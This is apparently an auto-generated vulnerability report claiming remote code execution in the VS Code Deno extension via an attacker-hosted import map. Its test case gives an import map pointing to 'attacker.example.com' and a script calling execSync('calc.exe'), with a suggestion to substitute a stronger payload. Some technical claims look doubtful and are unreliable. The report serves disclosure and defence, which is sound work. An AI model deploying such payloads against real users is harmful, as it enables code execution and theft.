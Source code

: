 - ### Vulnerability Name: Remote Code Execution via Malicious Import Map
- Description:
    1. An attacker crafts a malicious import map JSON file and hosts it at a publicly accessible URL (e.g., `http://attacker.example.com/malicious_import_map.json`). This import map redirects legitimate module specifiers to attacker-controlled scripts.
    2. The attacker uses social engineering, phishing, or other methods to trick a user of the VS Code Deno extension into configuring the `deno.importMap` setting in their VS Code workspace or user settings. The user is instructed to set the value of `deno.importMap` to the URL of the attacker's malicious import map (e.g., `http://attacker.example.com/malicious_import_map.json`).
    3. The user opens or creates a Deno project in Visual Studio Code with the Deno extension enabled for the workspace.
    4. When the VS Code Deno extension initializes or performs operations that involve module resolution (such as type checking, linting, or code completion), it retrieves and utilizes the import map specified in the `deno.importMap` setting.
    5. Due to the malicious import map configuration, when the extension attempts to resolve modules, it might inadvertently load and execute scripts from URLs controlled by the attacker, as defined in the import map's redirection rules.
    6. This leads to the execution of arbitrary code within the context of the user's Visual Studio Code environment, specifically within the Deno runtime environment managed by the extension.
- Impact:
    Successful exploitation of this vulnerability allows the attacker to achieve remote code execution on the user's machine. The attacker can execute arbitrary code with the same privileges as the Visual Studio Code process. This can lead to severe consequences, including:
    - Data theft: Access to sensitive files, credentials, and project data within the user's workspace.
    - System compromise: Potential to install malware, create persistent backdoors, or pivot to other systems on the network.
    - Supply chain attacks: If the compromised workspace is part of a larger development pipeline, the attacker could inject malicious code into projects, affecting downstream users and systems.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    There are no explicit mitigations visible in the provided project files that directly address the risk of malicious import map usage. The extension currently trusts the user-provided URL for the import map without performing any validation or security checks on the content or source of the import map.
- Missing Mitigations:
    - Input Validation and Sanitization: The extension should implement validation for the `deno.importMap` setting. This could include:
        - Warning users explicitly about the risks of using remote import maps, especially when the source is untrusted.
        - Suggesting or enforcing the use of local import maps instead of remote URLs whenever possible.
        - Potentially implementing checks to verify the content type and basic structure of the import map file before using it.
    - Security Warnings and User Education: Improve documentation to strongly emphasize the security implications of using untrusted import maps. Provide best practices for securely managing and configuring import maps.
- Preconditions:
    - The VS Code Deno extension must be installed and enabled in Visual Studio Code.
    - The user must have Deno CLI installed and configured for use with the extension.
    - The attacker must successfully trick the user into manually setting the `deno.importMap` configuration setting to a malicious URL.
- Source Code Analysis:
    - `README.md`: The `README.md` file documents the `deno.importMap` configuration setting under the "Configuration" section, explaining its purpose and usage, but it does not mention any security considerations or warnings related to using untrusted import map URLs.
    - `client/src/commands.ts`: This file contains the `startLanguageServer` function, which is responsible for initiating the Deno Language Server. Within this function, the configuration settings for the extension, including `deno.importMap`, are read from VS Code's workspace configuration and passed as initialization options to the Language Server. However, there is no visible code that validates or sanitizes the `deno.importMap` value before it is used.
    - `client/src/extension.ts`: This file sets up the Language Client and defines `clientOptions`, which include passing the configuration settings to the Language Server. Similar to `commands.ts`, no input validation or security checks are implemented for the `deno.importMap` setting within this file.
    - `client/src/types.d.ts`: This file defines the TypeScript interfaces and types used within the extension, including `DenoExtensionContext` and `EnableSettings`. These type definitions do not include any security logic or validation mechanisms for configuration settings.

    **Conclusion from Source Code Analysis:**
    The source code analysis indicates that the extension currently lacks input validation and security checks for the `deno.importMap` setting. The extension reads the configuration value and passes it to the Deno Language Server without any explicit security considerations. This absence of validation makes the extension vulnerable to the malicious import map attack vector.

- Security Test Case:
    1. **Attacker Setup:**
        - Create a malicious import map file named `malicious_import_map.json` with the following content:
          ```json
          {
            "imports": {
              "benign_module": "http://attacker.example.com/malicious_script.js"
            }
          }
          ```
        - Create a malicious JavaScript file named `malicious_script.js` with the following content (this example is for demonstration and harmless, replace `calc.exe` with a more impactful payload for real testing in a controlled environment):
          ```javascript
          const process = require('child_process');
          process.execSync('calc.exe'); // Opens calculator on Windows as an example of RCE
          console.log("Malicious script from import map executed!");
          ```
        - Host both `malicious_import_map.json` and `malicious_script.js` on an attacker-controlled web server, making them accessible via `http://attacker.example.com/malicious_import_map.json` and `http://attacker.example.com/malicious_script.js` respectively.
    2. **Victim Configuration:**
        - Open Visual Studio Code and install the Deno extension if not already installed.
        - Create a new workspace or open an existing one.
        - In VS Code settings (workspace or user settings), set the `deno.importMap` setting to `http://attacker.example.com/malicious_import_map.json`.
    3. **Victim Project Setup:**
        - Create a new Deno file (e.g., `test_module.ts`) within the workspace with the following code:
          ```typescript
          import * as benignModule from "benign_module";

          console.log("Loading benign module...");
          ```
    4. **Trigger Vulnerability:**
        - Open the `test_module.ts` file in the editor.
        - Observe the behavior.

    **Expected Result:**
    When `test_module.ts` is opened and processed by the Deno extension, the following should occur:
    - The calculator application (`calc.exe` on Windows) should launch, indicating arbitrary code execution.
    - The "Malicious script from import map executed!" message should be visible in the console output (if the malicious script includes console logging).
    - The "Loading benign module..." message from `test_module.ts` might or might not be logged depending on the execution flow and if the malicious script interrupts further execution.

    **Success Condition:**
    The successful execution of the calculator application (or equivalent payload in `malicious_script.js`) confirms the Remote Code Execution vulnerability via a malicious import map. This test demonstrates that the extension loads and processes the import map from the attacker-controlled URL, leading to the execution of malicious code when modules are resolved.
